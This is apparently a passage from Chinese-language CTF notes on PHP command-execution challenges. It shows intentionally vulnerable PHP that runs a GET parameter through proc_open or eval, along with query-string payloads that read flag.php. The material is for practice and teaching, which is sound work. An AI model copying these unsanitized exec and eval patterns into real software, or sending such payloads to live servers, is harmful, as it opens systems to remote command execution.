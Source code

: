 payload

> ?c=cat%20flag.php

##### **E.g.18**

<?php  
  error\_reporting(0);  
  show\_source(\_\_FILE\_\_);   
  $command=$\_GET\['c'\];  
  $descriptorspec=array(   
    0=>array('pipe','r'),   
    1=>array('pipe','w'),  
    2=>array('pipe','w')   
  );  
  $handle=proc\_open($command,$descriptorspec,$pipes,NULL);  
  if(!is\_resource($handle)){  
    die('proc\_open failed');  
  }  
  while($s=fgets($pipes\[1\])){  
    print\_r($s);  
  }  
  while($s=fgets($pipes\[2\])){  
    print\_r($s);  
  }  
  fclose($pipes\[0\]);  
  fclose($pipes\[1\]);  
  fclose($pipes\[2\]);  
  proc\_close($handle);  
?>

payload

> ?c=cat%20flag.php

##### **E.g.19 无字母shell**

<?php  
include 'flag.php';  
if(isset($\_GET\['code'\])){  
  $code = $\_GET\['code'\];  
  if(strlen($code)>40){ //检测字符长度  
    die("Long.");  
  }  
  if(preg\_match("/\[A-Za-z0-9\]+/",$code)){ //限制字母和数字  
    die("NO.");  
  }  
  @eval($code); //$code的值要为非字母和数字  
}else{  
  highlight\_file(\_\_FILE\_\_);  
}  
//$hint = "php function getFlag() to get flag";  
?>
